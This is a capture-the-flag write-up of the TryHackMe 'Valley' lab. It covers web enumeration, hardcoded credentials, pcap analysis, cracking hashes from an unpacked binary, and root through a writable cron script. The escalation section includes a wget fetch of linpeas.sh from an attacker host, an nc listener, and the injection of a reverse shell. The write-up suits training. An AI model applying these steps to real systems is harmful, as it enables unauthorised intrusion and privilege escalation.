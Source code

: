 ```yaml
---
title: "TryHackMe - Valley"
categories:
  - Blog
tags:
  - TryHackMe
  - Pentesting
  - Training
---
```


This is a write-up for the [Valley](https://tryhackme.com/room/valleype) room on [TryHackMe](https://tryhackme.com/).

Let's jump right in!

# Enumeration
First, I performed an nmap scan of the target:
`$ nmap -A <TARGET IP>`

The results show two open ports:
- `22-ssh`
- `80-http`

Next, I ran:
`$ namp -A -p- <TARGET IP>`

I let that run while I did a walkthrough of the web application. 
- I was able to navigate to the following:
    - `/gallery/gallery.html`
        - Each picture in the gallery page opens from `/static/#`, where `#` is the picture's number. There are 18 pictures on the gallery page, numbered 1-18
    - `/pricing/pricing.html`

Next I ran feroxbuster on the target to see if there are any other directories to be found:
`$ feroxbuster -u http://<TARGET IP> -w usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt`

The results of this scan showed:
- `/gallery` `/pricing` and `/static` all returned code `301`, indicating a redirect.
- `/pricing/note.txt`
    - Interesting...

Navigating to `http://<TARGET IP>/pricing/note.txt` we are shown a note from "RP" to "J," asking them to stop leaving notes randomly on the website.

Recalling that the `/static` directory was serving up the gallery photos, identifying them with a numeric value, let's try a different wordlist on this directory, using gobuster for simplicity:
`$ gobuster dir -u http://<TARGET IP>/static -w /usr/share/wordlists/wfuzz/general/big.txt`

This reveals all of the expected gallery pictures (1-18), as well as a page titled `00`.

Navigating to `http://<TARGET IP>/static/00` reveals:
```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```
Alright, another clue. Navigating to `http://<TARGET IP>/dev1243224123123` reveals a login page. Before getting ahead of myself, I decided to check for low hanging fruit. I checked the source of the page and navigated to `dev.js` from there. 

In the source of `dev.js` I found a username and password:
```
if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
```
# Access
I used these credentials to login and was brought to another note:
```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```
Now I checked the results of the `nmap -A -p-` command that I started way back, and found an `ftp` server running on port `37370`.

Drawing on the mention of reusing credentials, I tried to access the `ftp` server with the username and password I found:
`$ ftp <TARGET IP> 37370`

Access was granted and I found 3 `pcapng` files. I used the `get` command to download each file to my machine.

I opened each `pcapng` file in Wireshark, and scanned for anything interesting.
The `siemFTP.pcapng` file contains an Anonymous login to the `ftp` server. 
The `siemHTTP1.pcapng` file is mostly filled with TLS encrypted data. I filtered the data by `http` and did find some traffic in cleartext, but nothing of use. 
I filtered `siemHTTP2.pcapng` by `http` and noticed a `POST` request at packet 2335. After digging into this packet I found more credentials:
`"uname" = "valleyDev"`
`"psw" = "ph0t0s1234"`

I tried using these credentials on the web app login page, and the `ftp` server, but was not successful. So I then pivoted to port 22 running `ssh`:
`$ ssh valleyDev@<TARGET IP>`

Access granted!

Now that we have system access, let's find the first flag. It's right in the current user directory, so just `cat` it out:
`$ cat user.txt`

Now let's look around a bit more. I went back one directory level, to check for other users, and found a file: `valleyAuthenticator`

# Privilege Escalation: Horizontal
I ran `file` command on `valleyAuthenticator`:
`valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header`

I tried executing the file on the target, and was prompted to enter my username and password. I tried all credentials collected thus far, but could not find valid credentials.

I decided to copy the executable back to my local machine, for further analysis:
- End the ssh session, and use `scp` from my local machine
    - `$ scp valleyDev@<TARGET IP>:/home/valleyAuthenticator .`

Now that I have the executable on my machine, I first ran `strings` on it:
`$ strings valleyAuthenticator`

This reveals the string `UPX!` twice at the bottom. [UPX](https://upx.github.io/) is a packer for executibles, which may explain why `strings` returned only gibberish. So next I will unpack the file and try running strings again:
- `$ upx -d valleyAuthenticator`
- `$ strings valleyAuthenticator`
    - Now I am seeing actual human-readable strings, let's try to use `grep` to find any credentials, and I'll use `-B` and `-A` to see more context.
- `$ strings valleyAuthenticator | grep pass -B 10 -A 10`
    - This reveals two hashes that may correlate to the "Username" and "Password" fields below them:
        - `e6722920bab2326f8217e4bf6b1b58ac`
        - `dd2921cc76ee3abfd2beb60709056cfb`

After finding these hashes I turned to [CrackStation](https://crackstation.net/) to try and crack them. This revealed another set of credentials:
- `valley`
- `liberty123`

I tried accessing the system with these credentials over `ssh` and was granted access!

Now let's get `root`.

# Privilege Escalation: Vertical
First I tried running `sudo -l` to see if user `valley` can run anything as sudo, but unfortunately I do not have the ability.
Next, I turned to one of my favorite tools: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Since I already have `linpeas.sh` on my machine, I navigated to the directory it is located in, and started a Python server on port 9999 using:
`$ python3 -m http.server 9999`

Then, on the target machine, I navigated to the `/tmp` directory, and downloaded `linpeas.sh`:
`$ wget <ATTACKER IP>:9999/linpeas.sh`

Next, I made it executable:
`$ chmod +x linpeas.sh`

And, then executed it:
`$ ./linpeas.sh`

LinPEAS often returns an overwhelming amount of data. Scanning through the results, I found that there is a cronjob running `/photos/script/photosEncrypt.py` every minute, and it is running it as `root`. Further, I have write permission to this script.
I used `nano` to figure out what this script is doing, and it appears to be encrypting any new photos on the system to Base64. 

The technique I will use will be to add a reverse shell to `photosEncrypt.py`. For the script, I used `Python3 Shortest` from [Reverse Shell Generator](https://www.revshells.com/).

Before adding this script to `photosEncrypt.py`, I started a listener on my local machine:
`nc -lvnp 8888`

With my listener running, I pasted the reverse shell into `photosEncrypt.py` and saved the file.

After about a minute, I was granted a shell as `root` on the system. I then navigated to `/root` and finally:
`$ cat root.txt`

# Conclusion
This was an interesting CTF. The engagement began easily enough, with "hidden" notes in a web application, to hard coded credentials, then escalated to more advanced concepts, like unpacking and analyzing executables.

## Suggested Mitigations
The most obvious mitigation for this organization would be to sanitize their web application, removing the notes, as well as the credentials hardcoded into `dev.js`. Beyond this, I would recommend revoking write permission `photosEncrypt.py` all users but `root`.